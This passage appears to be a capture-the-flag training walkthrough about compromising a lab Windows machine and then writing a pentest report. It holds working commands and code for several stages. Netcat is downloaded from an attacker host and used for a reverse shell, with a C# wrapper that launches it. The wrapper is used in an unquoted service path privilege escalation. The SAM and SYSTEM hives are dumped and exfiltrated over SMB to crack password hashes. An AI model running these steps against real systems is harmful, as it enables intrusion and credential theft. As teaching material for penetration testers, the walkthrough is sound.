Whilst cross-compilation is a very useful skill to have, it's often difficult  to get completely correct. Ideally we should always try to compile our  code in an environment as close to the target environment as possible.  For example, if an exploit or program is designed to work on CentOS 7.2, we should try to compile it in a CentOS 7.2 VM if possible. Equally, it's essential that we get the same arch as that  of the target -- a 64 bit program won't work very well on a 32 bit  target!

Sometimes it's easiest to just cross-compile,  however. Generally speaking we cross compile x64 Windows programs on  Kali using the `mingw-w64` package (for x64 systems). This is not installed on Kali by default, however it is available in the Kali apt repositories:
`sudo apt install mingw-w64`

This is a big package, but once it's installed we can start re-compiling netcat.

Much like we use `gcc` to compile binaries on Linux, we can use the `mingw` compilers to compile Windows binaries. These tend to have very  descriptive (read: long) names, but the one that's of particular  importance to us here is `x86_64-w64-mingw32-gcc`. This specifies that we want to compile a 64bit binary.

Inside the nc.exe repository we downloaded, delete or move the two  pre-compiled netcat binaries. The repository provides a makefile which  we can use (with some small alterations) to compile the binary. Open up  the `Makefile` with your favourite text editor. The first two lines specify which compiler to use:


Neither of these are quite what we're looking for, so comment out the first line and add another line underneath:
`CC=x86_64-w64-mingw32-gcc`


Now when we run `make` to build the binary, the correct compiler will be used to generate a  x64 Windows executable. Note that there will be a lot of warnings  generated by the compiler (these have been redirected to `/dev/null` in the following screenshot for readability, however, you do not need  to do this). These are nothing to worry about; the compilation should  still be successful.


​                                                            

With a copy of netcat available, we now need to get it up to the target.

Start a Python webserver on your attacking machine (as demonstrated numerous times previously):
`sudo python3 -m http.server 80`                                                         

Despite it often being much harder to upload binaries to Windows than it is to upload to Linux, we do have a few options here.

- Powershell *might* work, but with AMSI in play it's a risk.
- We could use the file upload point that we originally exploited to upload an unrestricted PHP file uploader (in the same way that we uploaded the original webshell,  although this would be a bit of a pain with embedding the uploader in an image).
- We could look for other command line tools installed on the target such as `curl.exe` or `certutil.exe`, both of which might allow for a file upload.

Try to execute both of this in the webshell -- both should work.                                                       

Certutil is a default Windows tool  that is used to (amongst other things) download CA certificates. This  also makes it ideal for file transfers, *but* Defender flags this as malicious. 

Instead we'll stick with trusty old cURL.

Use cURL to upload your new copy of netcat to the target:
`curl http://ATTACKER_IP/nc.exe -o c:\\windows\\temp\\nc-USERNAME.exe`

Note the double backslashes used here. This is purely due to how the  webshell handles backslashes. We need to escape the backslashes so that  they are passed in as a part of the command, as opposed to escaping the  letters immediately after them.

​                                                            

We now have everything we need to get a reverse shell back from this target.

Set up a netcat listener on your attacking machine, then, in your webshell, use the following command:
`powershell.exe c:\\windows\\temp\\nc-USERNAME.exe ATTACKER_IP ATTACKER_PORT -e cmd.exe `

e.g.
`powershell.exe c:\\windows\\temp\\nc-MuirlandOracle.exe 10.50.73.2 443 -e cmd.exe `

This should result in a reverse shell from the target!


***Note:** In order for this to work we had to wrap the netcat command inside a powershell process to keep it from exiting early.*

​                                                            

**Bonus Question (optional):** Try generating a metasploit reverse shell and transfer it to the target (`msfvenom -p windows/x64/shell_reverse_tcp -f exe -o shell.exe LHOST=ATTACKING_IP LPORT=CHOOSE_A_PORT`) -- make sure to place it in a directory you can list (e.g. the Uploads  directory of the webserver). This shell will get picked up by Defender  (so don't do it anywhere else!), but it will give you a feel for how  antivirus operates when it detects your payload as being malicious. 

You should get an error message when trying to execute the executable and  the exe will also disappear from the current directory (placed into  quarantine by the AV). At this point the Administrator has also been alerted, along with the security team in a bigger organisation.

## Enumeration                            

We have a reverse shell on the third and final target -- this is cause for celebration!

We don't yet have full system access to the target though. As we saw when  we first obtained the webshell, the webserver was (un)fortunately not  running with system permissions (contrary to the Xampp defaults), which  leaves us with a low-privilege account. Looks like Thomas was sensible  with his security on his own PC!

This does mean that we're going  to need to enumerate the target for privesc vectors though -- and with  Defender active, we'll have to do it quietly. Let's consider our  options:

- We could (and should) always start with a little  manual enumeration. This will be relatively quiet and gives us a  baseline to work with
- Defender would *definitely* catch a regular copy of WinPEAS; however, it would be unlikely to catch either the `.bat` version or the obfuscated `.exe` version, both of which are released in the [PEAS repository](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/) alongside the regular version
- Chances are that AMSI will alert Defender if we try to load any PowerShell  privesc check scripts (e.g. PowerUp), so we'd ideally be looking for  obfuscated versions of these if we were to use them

We'll start with some manual enumeration and hopefully come up with something workable!

Use the command `whoami /priv`

ur current user likely has this privilege due to running XAMPP as a service on the account. Unfortunately this also means that XAMPP won't be a good privesc vector in its own right, but we might be able to use the privileges it gave us!

Now use whoami /groups to check the current user's groups.

Unfortunately this account isn't in the Local Administrators group as that (combined with the High integrity process we're currently using) would make any further privilege escalation redundant.

Now that we've got an idea of our own user's capabilities. Let's take a look at the box itself.

Windows services are commonly vulnerable to various attacks, so we'll start  there. Generally speaking, it's unlikely that core Windows services will be vulnerable to anything -- user installed services are far more  likely to have holes in them. 

Let's start by looking for non-default services:
`wmic service get name,displayname,pathname,startmode | findstr /v /i "C:\Windows"`

This lists all of the services on the system, then filters so that only services that are *not* in the `C:\Windows` directory are returned. This should cut out most of the core Windows  services (which are unlikely to be vulnerable to this kind of  vulnerability), leaving us with primarily lesser-known, user-installed  services.

There should be a bunch of results returned here. Read through them, paying particular attention to the `PathName` column. Notice that one of the paths does not have quotation marks around it.

​                                                            

The lack of quotation marks around this service path indicates that it might be vulnerable to an *Unquoted Service Path* attack. In short, if any of the directories in that path contain spaces (which several do) and are writeable (which we are about to check),  then -- assuming the service is running as the `NT AUTHORITY\SYSTEM` account, we might be able to elevate privileges.

First of all, let's check to see which account the service runs under:
`sc qc SERVICE_NAME`

​                                                            

This is looking good! 

Let's check the permissions on the directory. If we can write to it, we are golden:
`powershell "get-acl -Path 'C:\Program Files (x86)\System Explorer' | format-list"`


We have full control over this directory! How strange, but hey, Thomas' security oversight will allow us to root this target.

​                                                            

In the interests of learning, it  should be noted here that this is far from the only vulnerability here.  By the looks of things, Thomas installed the program but couldn't be  bothered entering the password for the Administrator account every time  he needed to interact with it. As a result, he botched the permissions  and gave every user access to every aspect of the program. 

This means that we can create our unquoted service path exploit, but we could also perform attacks such as DLL hijacking, or even outright replacing the service executable with a malicious binary. 

That said, we will stick to the unquoted service path vulnerability purely  to avoid messing with the service itself. This way all we need to do is  create our own binary then delete it, rather than alter any of the files in the service itself.

------

**Bonus Question (optional):** Try  to get a copy of WinPEAS up to the target (either the obfuscated  executable file, or the batch variant) and run it. You will see that  there are many more potential vulnerabilities on this target -- mainly  due to patches that haven't been installed.



## Privilege Escalation                            

Let's recap what we found in the previous task:

- We have a  privilege which we could almost certainly use to escalate to system  permissions. The downside is that we'd need to obfuscate the exploits in order to get them past Defender.
- We have an unquoted service path vulnerability for a service running as the system account. This is ideal.

We have everything we need to root this box. Let's do this!

Of the two vulnerabilities that are immediately available, we will work  through the unquoted service path attack for one simple reason: getting a reverse shell back from this is *very* easy -- even with Defender  in play. The exploits available to manipulate the privilege we found  would need to be custom compiled and obfuscated in order to be useful to us; however, with the unquoted service path, all we need is one very  small "wrapper" program that activates the netcat binary that we *already have on the target.* To put it another way, we just need to write a small executable that  executes a system command: activating netcat and sending us a reverse  shell as the owner of the service (i.e. local system). Ideally we would  write a full C# service file that would integrate seamlessly with the  Windows service management system. Whilst this is perfectly possible  (and is by far the preferable option), for the sake of simplicity, we  will stick to just creating a standalone executable. It's worth noting  that this technique is effective at bypassing the antivirus software on  the target; however, in an enterprise situation there is a good chance  that it would be picked up by an intrusion detection system. In this  scenario we would be looking for a more sophisticated (if similar)  solution.

Ideally we'd be using Visual Studio here. If you happen to have a Windows host and are familiar with Visual Studio then please  feel free to use it for. As not everyone has access to a Windows machine (or is comfortable installing Windows as a virtual machine), the  teaching content will work with the `mono` dotnet core compiler for Linux. This can be easily installed on Kali and will allow us to compile C#  executables that can be run on Windows targets. The same code will work  just fine if compiled in Visual Studio, however.

------

First we need to install Mono. This can be done with:
`sudo apt install mono-devel`

If you are using the AttackBox then this should already be installed.

Now, open a file called `Wrapper.cs` in your favourite text editor.

The first thing we need to do is add our "imports". These allow us to use  pre-defined code from other "namespaces" -- essentially giving us access to some basic functions (e.g. input/output). At the very top if the  file, add the following lines:

```
using System;
using System.Diagnostics;
```

These allow us to start new processes (i.e. execute netcat).

Next we need to initialise a namespace and class for the program:

```
namespace Wrapper{
    class Program{
        static void Main(){
            //Our code will go here!
        }
    }
}
```

We can now write the code that will call netcat. This goes inside the `Main()` function (replacing the `//Our code will go here!` line).

First, we create a new process, as well as a ProcessStartInfo object to set the parameters for the process:
`Process proc = new Process();ProcessStartInfo procInfo = new ProcessStartInfo("c:\\windows\\temp\\nc-USERNAME.exe", "ATTACKER_IP ATTACKER_PORT -e cmd.exe");`

*Make sure to replace the* `nc-USERNAME.exe `*with the name of your own netcat executable, as well as slotting in your own IP and Port!*

With the objects created, we can now configure the process to not create it's own GUI Window when starting:
`procInfo.CreateNoWindow = true;`

Finally, we attach the `ProcessStartInfo` object to the process, and start the process!

```
proc.StartInfo = procInfo;
proc.Start();
```

Our program is now complete. It should look something like this:

```c#
using System;
using System.Diagnostics;

namespace Wrapper{
    class Program{
        static void Main(){
            Process proc = new Process();ProcessStartInfo procInfo = new ProcessStartInfo("c:\\windows\\temp\\nc123.exe", "10.5091.18 20000 -e cmd.exe");
            procInfo.CreateNoWindow = true;
            proc.StartInfo = procInfo;
            proc.Start();
        }
    }
}
```




We can now compile our program using the Mono `mcs` compiler. This is extremely simple using the package we installed earlier:
`mcs Wrapper.cs`


Answer the questions below                                                            

Write and compile a wrapper program using Mono or Visual Studio.
Transfer the `Wrapper.exe ` file to the target. Just to spice things up a bit, let's use an Impacket SMB server, rather than our usual HTTP server. If you would prefer to use the HTTP server and cURL (or another method to transfer the file) you are welcome to do so.

------

Impacket is a Python library that makes it very easy to interact with a wide variety of Windows services from Linux.

First up, let's download the package:
`sudo git clone https://github.com/SecureAuthCorp/impacket /opt/impacket  && cd /opt/impacket && sudo pip3 install .`

***Note:** On the AttackBox Impacket is preinstalled at* `/opt/impacket/impacket`

We can now start up a temporary SMB server:
`sudo python3 /opt/impacket/examples/smbserver.py share . -smb2support -username user -password s3cureP@ssword`


With this command we created a server on our IP, serving a share called  "share" in the current directory. As Impacket uses SMBv1 by default, we  need to specify that is use SMBv2 in order for the relatively up-to-date target to accept it. We then set a username and password for  connections to the server -- again, this is due to security policies on  the target requiring connections to be authenticated.

Now, in our reverse shell, we can use this command to authenticate:
`net use \\ATTACKER_IP\share /USER:user s3cureP@ssword `


This authenticates with the server using the credentials we set (`user:s3cureP@ssword`). We can now copy our compiled `Wrapper.exe` program up to the target. Due to file permissions on the normal `C:\Windows\Temp` directory, we are doing this from our current user's own `%TEMP%` directory:
`copy \\ATTACKER_IP\share\Wrapper.exe %TEMP%\wrapper-USERNAME.exe`


***Note:** We could have just executed this directly through the share -- exactly as  we did with Mimikatz when dealing with the Gitserver. We are copying it  here purely because we will need to have a copy on the target sooner or  later anyway.*

It is often useful to just leave an SMB server  running in the background when working with Windows targets. We will use this server later, so let's leave it up for now.

That said, to prevent errors down the line, we should disconnect from it for the time being:
`net use \\ATTACKER_IP\share /del`


​                                                            

Start a listener on your chosen port and try to execute  the wrapper manually -- you should get a reverse shell back:
`"%TEMP%\wrapper-USERNAME.exe"`


​                                                            

Excellent. Our program works and is  not getting caught by the antivirus. We are now ready to exploit that  unquoted service path vulnerability!

Unquoted service path  vulnerabilities occur due to a very interesting aspect of how Windows  looks for files. If a path in Windows contains spaces and is not  surrounded by quotes (e.g. `C:\Directory One\Directory Two\Executable.exe `) then Windows will look for the executable in the following order:


1. `C:\Directory.exe`
2. `C:\Directory One\Directory.exe`
3. `C:\Directory One\Directory Two\Executable.exe`

What this means is that if we can create a file called `Directory.exe` in the root directory, or `C:\Directory One\`, then we can trick Windows into executing our file instead!

Let's take a look at the actual path of our vulnerable service: `C:\Program Files (x86)\System Explorer\System Explorer\service\SystemExplorerService64.exe`. There are technically three places we *could* add our program here:

- We could put it in the root directory and call it `Program.exe`. This is *very* unlikely to work, as the chances of having write permissions here are virtually 0.
- We could put it in the `C:\Program Files (x86)\` directory and call it `System.exe`. Once again, this is unlikely to work because the chances of being able to write into `C:\Program Files (x86)\` are minimal.
- We could put it in `C:\Program Files (x86)\System Explorer\` and call it `System.exe`. This one will work! Remember we checked the permissions of this  directory in the last task and found that we had full access? This means that we can place our wrapper into this directory, then when the  service is restarted, our wrapper will be executed giving us a shell as  the local system user!

Before blindly copying your wrapper, check to make sure that another user isn't currently performing this exploit:
`dir "C:\Program Files (x86)\System Explorer\"`

If you see a file called `System.exe` in the output then *please wait a few minutes until it disappears.*

If there is not already an exploit in the directory then it's time to root this thing!

Copy your wrapper from `C:\Windows\Temp\wrapper-USERNAME.exe ` to `C:\Program Files (x86)\System Explorer\System.exe `.
`copy %TEMP%\wrapper-USERNAME.exe "C:\Program Files (x86)\System Explorer\System.exe" `


***Note:** There is a cleanup script running on this target once every five  minutes in case any hackers are too sloppy to cover up their tracks by  restoring the service to working order. If your payload disappears  before execution then you may have been caught by the script. If this  happens, just repeat this step and the exploit should work.*

​                                                            

Our exploit is in place! We have two options to activate it:

- This service starts automatically at boot, so we could try restarting the  entire box (although we don't actually have the required permissions to  do this to prevent users from taking the box down).
- We could try restarting the service itself. Given the amount of access to this  service that Thomas has given to his account, it's a fair bet that we  might be able to do this.

Failing either of these, we would be stuck waiting for someone to restart the target for us naturally.

Let's try stopping the service:
`sc stop SystemExplorerHelpService`


We can stop the service, so chances are we can also start it! Set up a  listener on your attacking machine then start the service:
`sc start SystemExplorerHelpService`


We have root!

Notice that we got a message telling us that the service failed to start. This is because the wrapper we uploaded isn't actually a real Windows  service file. Our executable still gets executed, but as far as Windows  is concerned, the service failed to start.

There's only one thing left to do here.

Let's clear up after ourselves by deleting the wrapper and starting the service:
`del "C:\Program Files (x86)\System Explorer\System.exe"sc start SystemExplorerHelpService`


Clearing up after exploits is a good habit to get into. This also has the added  bonus of being courteous to other users in the box who may be about to  perform the exploit. Note that deleting the wrapper and restarting the  service did not destroy the system shell!

​                                                            

**Bonus Question (optional):**  Research how to write a real Windows Service executable in C# and try to create a wrapper (or even a full reverse shell!) that doesn't cause the `sc start` command to error out.

The code [here](https://github.com/mattymcfatty/unquotedPoC) may help (but please do not run this as-is because it will create a new user with a known password):

# Exfiltration Exfiltration Techniques & Post Exploitation

Data exfiltration is something that should *never* be considered without explicit prior consent. Generally speaking, most external  engagements will strongly prohibit taking data from compromised systems; however, it is worth bearing in mind that this may not be the case for  internal engagements -- and some external engagements outright set  targets for the red team that revolve around exfiltrating a set piece of data from the targets once compromised. Even if this is a skill that  may not be used on a daily basis, it is still well worth learning.

------

The goal of exfiltration is always to remove data from a compromised  target. This could be things like passwords, keys, customer/employee  data, or anything else of use or value. If the data being exfiltrated is in plain text then this could be as simple as copying and pasting the  contents of a file from a remote shell into a local file. If the data is in a binary format, or otherwise can't just be copied and pasted, then  more complicated methods must be used to exfiltrate the targeted file. 

A common method for exfiltrating data is to smuggle it out within a harmless protocol, usually encoded. For example, DNS is often used to (relatively) quietly exfiltrate data. HTTPS tends to  be a good option as the data will outright be encrypted before egress  takes place. ICMP can be used to (very slowly) get the data out of the  network. DNS-over-HTTPS is superb for data exfiltration, and even email  is often used.

In a real world situation an  attacker will be looking to exfiltrate data as quietly as possible as  there may be an Intrusion Detection System active on the compromised  network which would alert the network administrators to a breach should  the data be detected. For this reason an attacker is unlikely to use  protocols as simple as FTP, TFTP, SMB or HTTP; however, in an unmonitored network these are still good options for moving files around.

It's worth noting that most command and control (C2) frameworks come with options to quietly exfiltrate data. Practically  speaking, this is likely how a bad actor would be exfiltrating data, so  it's worth keeping up to date with the current "standards" used by the  various frameworks. There are also plenty of standalone tools available  to automate sending and receiving obfuscated data.

------

In short, the only limitation when it comes to exfiltration is your  imagination. Whilst there are certainly common techniques available (and many tools around to take advantage of them) it will always be the new  and obscure methods that are the most successful. Who knows? Maybe  you'll even find a legitimate use for steganography!

As extra reading, [PentestPartners](https://www.pentestpartners.com/) have a superb [blog post](https://www.pentestpartners.com/security-blog/data-exfiltration-techniques/) on this topic.

​                                                            

------

Let's put this into practice!

We need some way to prove to Thomas that we've compromised his PC. We  could leave a note on his Desktop, or we could be fancy and give him his Administrator password hash to prove that we've rooted it.

There's no way we're going to get Mimikatz past Defender. We have SYSTEM  access, so we could technically just disable Defender, but let's try to  do this with as little destructiveness as possible (not least for other  users on the network). What we *can* do is grab the files containing the password hashes, pass them back to our attacking machine, then dump the hashes locally. On Linux this would be a simple matter of grabbing `/etc/shadow`. On Windows it is slightly more complex than that.

Local user hashes are stored in the Windows Registry whilst the computer is running -- specically in the `HKEY_LOCAL_MACHINE\SAM` hive. This can also be found as a file at `C:\Windows\System32\Config\SAM`, however, this should not be readable whilst the computer is running. To dump the hashes locally, we first need to save the SAM hive:
`reg.exe save HKLM\SAM sam.bak`

This saves the hive as a file called "sam.bak" in the current directory.

Dumping the SAM hive isn't quite enough though -- we also need the SYSTEM hive which contains the boot key for the machine:
`reg.exe save HKLM\SYSTEM system.bak`

With both Hives dumped, we can exfiltrate them back to our attacking machine to dump the hashes out of sight of Defender.

It's up to you how you choose to exfiltrate the files. Given this is a home  network with no monitoring in place, an SMB server is recommended.  Connect to your SMB server using your SYSTEM reverse shell with the `net use ` command. You can now either save the files directly to your own drive,  or move the files to your attacking machine if you already dumped the  hives, e.g:
`reg.exe save HKLM\SAM \\ATTACKING_IP\share\sam.bak `
or
`move sam.bak \\ATTACKING_IP\share\sam.bak`

***Note:** You may encounter an error when reconnecting. This is due to the way that Windows handles cached credentials:
*
*System error 1312 can usually be solved by connecting using an arbitrary domain. For example, specifying* `/USER:domain\user` *rather than just the username. The same SMB server will still work  here; however, Windows sees it as a different user account and thus  allows the new connection.*

With both files stored locally, we can now dump some hashes! Make sure you delete the .bak files from  the target if you copied them rather than moving them.

Once again, remember to disconnect from the SMB server!

There are a variety of tools that could do this job for us. The most reliable is (as is often the case), a script from the Impacket library: secretsdump.py .

Let's use this against our dumped hives:
`python3 /opt/impacket/examples/secretsdump.py -sam PATH/TO/SAM_FILE -system PATH/TO/SYSTEM_FILE LOCAL`

Demonstration of using Impacket against the dumped hives. Password hashes are obtained.

Each local account on the target is shown here, in a format of Username, RID, LM hash, NT hash -- separated by colons. We are interested in the NT hashes -- the last section (blurred). As a side note: 31d6cfe0d16ae931b73c59d7e0c089c0 is an empty hash, and indicates that the account is not activated. These can thus be discounted.

#  Debrief & Report                            

We started this assignment with three targets. One Linux, two Windows.

All three have now been fully compromised -- well done!

Hopefully you've been taking notes and are now about to start writing a report on the topic. If you're not familiar with pentest reports, the following  task may come in handy. Additionally, Offensive Security have also  published an example penetration test report [here](https://www.offensive-security.com/reports/penetration-testing-sample-report-2013.pdf), and there is a whole community-curated repository of public reports [here](https://github.com/juliocesarfort/public-pentesting-reports) should you need more inspiration.

------

Penetration test reports are generally split into several sections. There is no  strictly defined standard unfortunately, but the following layout should be well received:

- First up is the ***Executive Summary\***. This should be essentially non-technical, providing a brief overview of the job that was contracted to (and completed by) the pentester,  including a concise summary of the scope of the engagement. You should  also include a very short summary of the results here, as well as a  concise analysis of the overall security posture of the company. Be  aware thought that, as the name suggests, this section is designed to be read by the higher-ups in a company who may not have a technical  background or the time to devote to a long-winded explanation. This  section is particularly important as in many cases it may be the only  section that the client actually looks at. It should catch the eye, and  will set the tone for the rest of the report.
- At the end of (or immediately after) the executive summary include a ***Timeline*** showing an overview of what you did and when you did it. This allows  whoever is assigned to fix the vulnerabilities to check any logs from  the compromised system and see what a successful attack looks like from  their own privileged perspective.
- Next we have the ***Findings and Remediations*** section. This should be a more technical section. It should provide a detailed explanation of the vulnerabilities you found *as well as your suggested fixes for these.* Additionally, you should indicate the severity of each vulnerability, and the risk to the company should the vulnerability be exploited by a bad actor -- the [CVSS calculator](https://www.first.org/cvss/calculator/3.1) will be useful for this. You should not necessarily be providing a  step-by-step account of your methodology here, but there should be  enough detail for a technically-able person to see what the problem is,  and what the solutions might be. 
- After the findings and remediations should come the ***Attack Narrative***. This *should* be a step-by-step writeup of the actions you took against the targets,  including enough detail for a technically-competent individual to  replicate the attacks exactly in an almost copy-and-paste approach. In  many ways this is similar to a detailed write-up for a CTF.
- A section that is good to include but often skipped: the ***Cleanup*** section. This should detail the actions you took to eradicate your  presence on the targets (e.g. removing any added accounts, deleting  exploits or created files, etc).
- Next (but not last), there should be a ***Conclusion***. This just summarises the report, rounding off the results and stressing the importance of patching as required.
- Finally you should include ***References*** then ***Appendices***. The references section includes full references to any works cited  throughout the report (for example, maybe a quote or table from the  OWASP website, or referencing a newspaper article on an attack which  utilised a vulnerability found in the target network). The references  section should also be used to link to relevant CVEs (Common  Vulnerability and Exposure), CWEs (Common Weakness Enumerations), and/or CAPECs (Common Attack Pattern Enumerations and Classifications) for the found vulnerabilities. Your appendices should include any large pieces  of information that would have cluttered up the main text. For example,  if you had to edit an exploit (as we did during the Wreath network), you should include a full copy of the edited code as an appendix and  reference it when mentioned in the other sections. Equally, any code you write should also be stored here (with the exception of short snippets  and one-liners, which can be placed inline at the relevant section),  along with any large amounts of data or big tables / diagrams.

So, the sections should be:

1. Executive Summary
2. Timeline
3. Findings and Remediations
4. Attack Narrative
5. Cleanup
6. Conclusion
7. References
8. Appendices

Pentest reports will usually also have a branded front-cover and a table of contents before the report itself begins.

There are many pentest report templates available on the Internet which can  be used to provide a baseline for this. Many companies will also provide their penetration testers with a company-specific template to follow.  Regardless, of whether you use a pre-built template or create your own,  find a style and stick with it!

​                                                            

If you write a report you are welcome to keep it for your own records, or submit it to the room as a writeup for others to read!

In the real-world, a section of the pre-engagement meetings between the  client and the pentesting company would set out expectations for report handling procedures. This would cover things like the delivery method  for the report (i.e. how will it be transferred securely between the  consultants and the clients), as well as how (and when) consultant  copies of the report should be disposed of. Clients obviously do *not* want a report detailing their technical vulnerabilities falling into the wrong hands, so this section is very important. 

------

***Important!***

Consider the following brief to be the "report-handling procedures" for this assignment:

*Reports should be written in English and submitted as PDFs hosted on Github,  Google  Drive or somewhere else on the internet to be viewed in the browser with no downloads  required. Reports should not contain answers to questions, as far as is  possible (i.e. host names are fine, passwords or password hashes are  not). As you are being encouraged to write these in the format of a  penetration test report, writeups submitted in other formats will* 

not

 *be accepted to the room. If you want to do a video walkthrough of the  network then this can be linked to at the end of an otherwise complete  PDF report.*
